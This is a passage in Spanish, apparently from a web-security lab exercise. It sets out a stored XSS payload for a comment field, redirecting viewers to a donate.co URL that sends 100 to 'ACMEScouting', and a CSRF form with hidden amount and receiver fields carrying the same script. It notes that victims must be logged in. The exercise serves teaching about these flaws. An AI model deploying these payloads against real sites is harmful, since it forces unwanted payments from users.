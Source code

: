 ## b) Redirigir al ver los comentarios

| Pregunta    | Respuesta                                                                                                                                                |
| ----------- | --------------------------------------------------------------------------------------- |
| En el campo | comentario                                                                              |
| Introduzco  | ```<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>``` |

## c) Condiciones para transferir el dinero

Para que las donaciones ocurran, los usuarios que le den al botón o entren a la sección de comentarios, deben estar logeados en la página.

## d) Otro tipo de ataque

```html
<form action="donate.php" method="POST">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="<script>window.location='http://www.donate.co/?amount=100&destination=ACMEScouting/';</script>">
    <input type="submit" value="Realizar donación">
</form>
```
